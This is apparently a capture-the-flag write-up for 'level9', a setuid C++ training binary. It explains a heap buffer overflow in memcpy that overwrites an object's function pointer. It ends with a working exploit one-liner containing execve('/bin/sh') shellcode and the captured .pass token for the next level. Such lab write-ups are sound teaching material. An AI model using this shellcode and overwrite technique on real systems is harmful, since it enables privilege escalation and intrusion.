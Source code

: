 # Level9

## Context & Explanation
 * There is one file in our home, ```level9```, belonging to ```bonus0``` user, with suid.
 * Here's the decompiled source code we propose for this binary: [source.cpp](source.cpp)

 * We run the program with gdb and we observe that:
 	* In the `main()`
		* Object creation:
			1. `_Znwj@plt()` is called to allocate a new instance of class, for a total size of  `0x6c`, which is on the heap
			2. `_ZN1NC1Ei()` is called to construct our new instance of class, with a function pointer pointer, an unitialized buffer `buf[0x64]` and a value at the end.
		* We repeat a second time these 2 operations.
		* `_ZN1N13setAnnotationEPc()` is then called on object_1
			* a `memcpy()` is done on `av[1]` to the internal buffer `buf[0x64]` of the instance.
		* Finally, the function pointer pointer of the 2nd object is called.

## Exploited vulnerability

* We will use a Buffer-Overflow attack on the `memcpy()` to make use of the 2nd function pointer pointer to execute a shellcode.

* The shellcode we used is a call to `system("/bin/sh")`

* Here is a visual representation memory layout : ![Layout](Ressources/Layout_Objects.png)

* So using the blue offsets on this visual representation :

During the `memcpy()` we change the second object function pointer pointer at `0x70`, so it points to the begining of the first object buffer at `0x4`, which himself points at `0x8`, where starts our shellcode.

## Resolution

```sh
./level9 `python -c "print('10a00408'.decode('hex') + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\x53\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xcd\x80' + '\x90' * 79 +  '0ca00408'.decode('hex'))"`

$ cd ..
$ cd bonus0
$ cat .pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
